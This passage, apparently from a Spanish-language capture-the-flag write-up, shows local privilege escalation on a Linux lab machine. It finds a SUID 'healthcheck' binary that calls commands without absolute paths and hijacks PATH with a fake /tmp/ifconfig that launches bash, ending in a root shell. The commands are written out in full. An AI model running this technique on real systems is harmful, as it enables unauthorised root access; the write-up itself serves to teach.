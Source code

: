 ```bash
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount
```

Es un archivo ejecutable de 32 bits, si lo ejecutamos hace como un escaneo del sistema y hace un informe sobre el tamaño de un disco del sistema operativo.

Haciéndole un strings se ve que ejecuta varios comandos.

```bash
[medical@localhost home]$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

Sabiendo esto podemos tratar de hacer un path hijacking, ya que no ejecuta el comando con la ruta absoluta.

```bash
[medical@localhost tmp]$ echo "/bin/bash" > ifconfig
[medical@localhost tmp]$ chmod +x ifconfig 
[medical@localhost tmp]$ echo $PATH
/sbin:/usr/sbin:/bin:/usr/bin:/usr/lib/qt4/bin
[medical@localhost tmp]$ export PATH=/tmp:$PATH
[medical@localhost tmp]$ echo $PATH
/tmp:/sbin:/usr/sbin:/bin:/usr/bin:/usr/lib/qt4/bin
```

Ahora ejecutamos el binario y ganaríamos una shell como root.

```bash
System Health Check

Scanning System
[root@localhost tmp]# whoami
root
```


